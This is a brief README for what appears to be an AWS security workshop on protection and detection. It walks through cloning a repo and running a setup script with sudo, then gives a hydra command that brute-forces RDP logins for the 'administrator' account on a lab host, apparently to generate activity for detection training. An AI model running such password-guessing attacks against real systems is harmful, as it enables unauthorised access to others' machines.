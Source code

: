 # security-workshop

[Workshop Link](https://catalog.us-east-1.prod.workshops.aws/workshops/7c1f0b1e-d112-4ebc-acb1-c88e3d18cb71/en-US/modules/protect-detect)

login as ec2-user
```
sudo su -l ec2-user
```

run the following command to pull the repo:
```
git clone https://github.com/yybian/security-workshop.git
```
run the following command to make the bashscript executable
```
cd security-workshop
sudo chmod +x env-setup.sh
```
run the shell script
```
sudo ./env-setup.sh
```

run the following command to initiate the attack:
```
hydra -t 1 -V -f -l administrator -P /home/ec2-user/passwords/password_list.txt rdp://10.1.1.240
```

